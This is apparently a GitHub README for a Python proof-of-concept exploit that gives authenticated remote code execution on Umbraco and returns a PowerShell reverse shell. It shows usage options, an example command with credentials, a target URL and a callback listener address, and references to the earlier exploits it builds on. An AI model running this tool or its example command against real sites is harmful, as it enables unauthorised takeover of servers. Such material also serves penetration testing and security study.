 # Umbraco RCE PowerShell Reverse Shell PoC

## Usage
```
usage: exploit.py [-h] -u USER -p PASS -w URL -i IP [-o PORT]

Umbraco authenticated RCE

optional arguments:
  -h, --help                 show this help message and exit
  -u USER, --user USER       Username / Email
  -p PASS, --password PASS   Login password
  -w URL, --website-url URL  Root URL
  -i IP, --ip IP             IP address of callback listener
  -o PORT, --port PORT       Port of callback listener
```
Examples:
```
python exploit.py -u admin@example.org -p password123 -w 'http://remote.website/' -i 10.10.10.1 -o 1234
```

## Requirements
To install dependencies:
```
pip install -r requirements.txt
```

## Reference
This is a touch-up of [noraj's PoC](https://github.com/noraj/Umbraco-RCE/) which is based off [EDB-ID-46153](https://www.exploit-db.com/exploits/46153).  
This version provides a PowerShell reverse shell upon execution.